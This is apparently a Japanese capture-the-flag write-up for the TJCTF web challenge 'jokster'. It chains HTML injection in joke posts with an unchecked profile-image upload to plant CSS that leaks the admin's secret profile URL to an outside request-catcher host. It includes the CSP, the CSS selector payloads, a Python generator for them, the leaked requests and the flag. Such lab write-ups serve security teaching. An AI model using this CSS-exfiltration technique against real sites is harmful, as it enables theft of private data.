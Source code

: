 # jokster:web:XXXXpts
I love jokes. So much, even, that I could no longer think of my own. Because of that, I made this so I could yours!!!  
[jokster.tjc.tf](https://jokster.tjc.tf/)  
[Admin Bot](https://admin-bot.tjctf.org/jokster)  

Downloads  
[admin-bot.js](admin-bot.js)　[server.zip](server.zip)  

# Solution
サイト、Admin Bot、ソースが渡される。  
アクセスすると、ジョークを投稿するサイトのようだ。  
jokster  
[site.png](site/site.png)  
登録し、ログインするとプロフィールページ(https://jokster.tjc.tf/profile/jcyrvkir)が作られた。  
Profile  
[profile.png](site/profile.png)  
`Edit Profile`ではUsername、Password、画像が変更できる。  
Admin Botがあるため、XSSを狙ってタグを含むジョークを送信する。  
`</title><s>atoki`で無事にsタグを挿入できた(Joke部分のみのようだ)。  
![htmli.png](site/htmli.png)  
ここでCSPをチェックすると以下のようであった。  
```
script-src 'none';
img-src * data:;
style-src 'self' fonts.googleapis.com;
default-src 'self';
base-uri 'self';
block-all-mixed-content;
font-src 'self' https: data:;
form-action 'self';
frame-ancestors 'self';
object-src 'none';
script-src-attr 'none';
upgrade-insecure-requests
```
scriptは実行できないようだ。  
通常のcookie取得でないことが分かったため、flagの場所とAdmin Botの挙動を確認する。  
flagはindex.jsの中より、`admin`の`punchline`にあるようだ。  
Admin Botは以下のようにログインを行い、その後に送信された同一オリジンのサイトをクロールする。  
```js
~~~
        await page.goto('https://jokster.tjc.tf/login', { waitUntil: 'domcontentloaded' });

        await sleep(1000);

        const usernameInput = await page.$('#username');
        await usernameInput.type('admin');

        const passwordInput = await page.$('#password');
        await passwordInput.type(adminPassword.trim());

        const submitButton = await page.$('input[type="submit"]');
        await submitButton.click();

        await sleep(500);

        await page.goto(url, { timeout: 3000, waitUntil: 'domcontentloaded' });
~~~
```
adminのJokeを閲覧することを目指す。  
Jokeは他者のものをログインなしで閲覧できるが、URLはランダム(8桁)である。  
また、プロフィールにジョークの一覧が表示されるが、プロフィールページのURLもランダムである。  
壊れたimgタグを挿入して情報をリークできないかと考え、投稿したJokeのソースを眺めていると以下のタグが目に留まった。  
```html
~~~
        <span class="nav-right">
            <a href="/profile/jcyrvkir" class="nav-link">
                Satoki
            </a>
            <a href="/logout" class="nav-link">Logout</a>
        </span>
~~~
```
閲覧者のプロフィールアドレスがレンダリングされている(ログアウトすると無くなる)。  
Admin Botであればここはadminのプロフィールアドレスである。  
これをCSSiにて取り出せばよいと気付く。  
CSPに立ち返ると、CSSは`style-src 'self' fonts.googleapis.com;`であるので、cssファイルを同一オリジンに設置できればよい。  
投稿機能やファイルアップロード機能を調べていると、プロフィール画像の変更にてファイルの種類や拡張子のチェックを行っていないことがわかる(ちなみにファイル名はランダムであり、拡張子部分でもHTMLタグを挿入できるがあまり意味はない)。  
以下のようなCSSをアップロードし、Jokeページで読み込むと、閲覧者のプロフィールアドレスの一文字目がリークできる。  
リクエスト受信は[RequestBin.com](https://requestbin.com/)を用いた。  
```css
a[href^='/profile/a'] {background-image: url('https://xxxxxxxxxxxxx.x.pipedream.net/?a');}
a[href^='/profile/b'] {background-image: url('https://xxxxxxxxxxxxx.x.pipedream.net/?b');}
a[href^='/profile/c'] {background-image: url('https://xxxxxxxxxxxxx.x.pipedream.net/?c');}
a[href^='/profile/d'] {background-image: url('https://xxxxxxxxxxxxx.x.pipedream.net/?d');}
~~~
```
Jokeページではアップロードに成功したCSSファイルを`</title><link rel="stylesheet" href="https://jokster.tjc.tf/uploads/xxxxxxxx.css">`と読み込んでやる。  
これで生成されたJokeページをAdmin Botに送信してやると、adminのプロフィールアドレスの一文字目が取得できる。  
これを八文字分繰り返せばよいが、面倒なので以下のcss_gen.pyで二文字ずつリークするcssを作成した。  
```python
url = "https://xxxxxxxxxxxxx.x.pipedream.net"
admin_id = ""

with open("example.css", mode="w") as f:
    for i in "abcdefghijklmnopqrstuvwxyz0123456789-_":
        for j in "abcdefghijklmnopqrstuvwxyz0123456789-_":
            f.write(f"a[href^='/profile/{admin_id}{i}{j}'] {{background-image: url('{url}/?{admin_id}{i}{j}');}}\n")
```
これをアップロードした後、それを読み込むJokeをAdmin Botに踏ませる作業を繰り返すと以下のようなリクエストが届く。  
```
/?x3
/?x3fw
/?x3fwr0
/?x3fwr0nt
```
これにより、adminのプロフィールアドレスが`https://jokster.tjc.tf/profile/x3fwr0nt`とわかった。  
![flag.png](site/flag.png)  
アクセスするとflagが書かれていた。  

## tjctf{but_i_tHink_im_f1na1lY_cl34N_9b9c0ad1}